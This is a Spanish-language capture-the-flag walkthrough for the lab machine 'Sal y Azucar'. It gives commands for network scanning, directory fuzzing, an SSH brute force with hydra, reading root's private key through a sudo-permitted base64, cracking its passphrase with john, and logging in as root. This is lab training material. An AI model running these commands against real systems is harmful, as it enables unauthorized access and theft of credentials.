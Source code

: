 ```yaml
---
layout: post
title: "Sal y Azucar"
date: 2024-06-14 10:55:23
category: sample
vm: hackerlabs
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Sal y Azucar </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/sal-y-azucar/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/SalyAzucar/host.png){:.margin}

**1\.** Escaneo dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/SalyAzucar/arp.png){:.margin}

**2\.** Escaneo puertos y servicios en la maquina.

`sudo nmpa -p- --open -n -Pn -sCV --min-rate=5000 -T5 192.168.1.6`

![img](/notas/public/img/thehackerlabs/SalyAzucar/nmap.png){:.margin}

**3\.** En la web tenemos el apache por defecto.

`http://192.168.1.6`

![img](/notas/public/img/thehackerlabs/SalyAzucar/80.png){:.margin}

**4\.** Hago fuzzing de directorios y archivos.

`gobuster dir -u http://192.168.1.6/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/thehackerlabs/SalyAzucar/gobuster.png){:.margin}

**5\.** Dentro de summary encuentro un html, este me da un mensaje.

`http://192.168.1.6/summary/summary.html`

![img](/notas/public/img/thehackerlabs/SalyAzucar/summary.png){:.margin}

**6\.** Tras no tener mas nada, hago bruteforce al ssh tanto al usuario como la contraseña.

`hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /user/share/wordlists/rockyou.txt ssh://192.168.1.6`

![img](/notas/public/img/thehackerlabs/SalyAzucar/hydra.png){:.margin}

**7\.** Accedo por el ssh.

`ssh info@192.168.1.6`

![img](/notas/public/img/thehackerlabs/SalyAzucar/ssh.png){:.margin}

**8\.** Revisando los permisos sudo.

`sudo -l`

![img](/notas/public/img/thehackerlabs/SalyAzucar/sudol.png){:.margin}

**9\.** Ya que podemos ejecutarlo como root, encodeo y decodeo el id_rsa de root.

`sudo base64 /root/.ssh/id_rsa | base64 -d`

![img](/notas/public/img/thehackerlabs/SalyAzucar/base64.png){:.margin}

**10\.** Crackeando un passphrase del id_rsa de root.

_10.1- Lo guardo en un archivo_

`nano id_rsa`

![img](/notas/public/img/thehackerlabs/SalyAzucar/idrsa.png){:.margin}

_10.2- Usando john para encontrar el passphrase_

`ssh2john id_rsa > key`

`john --wordlist=/usr/share/wordlists/rockyou.txt key`

![img](/notas/public/img/thehackerlabs/SalyAzucar/john.png){:.margin}

**11\.** Obteniendo el super usuario.

_11.1- Le doy los permisos pertinentes la idrsa_

`chmod 600 id_rsa`

![img](/notas/public/img/thehackerlabs/SalyAzucar/chmodidrsa.png){:.margin}

_11.2- Accediendo por ssh_

`ssh -i id_rsa root@192.168.1.6`

![img](/notas/public/img/thehackerlabs/SalyAzucar/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>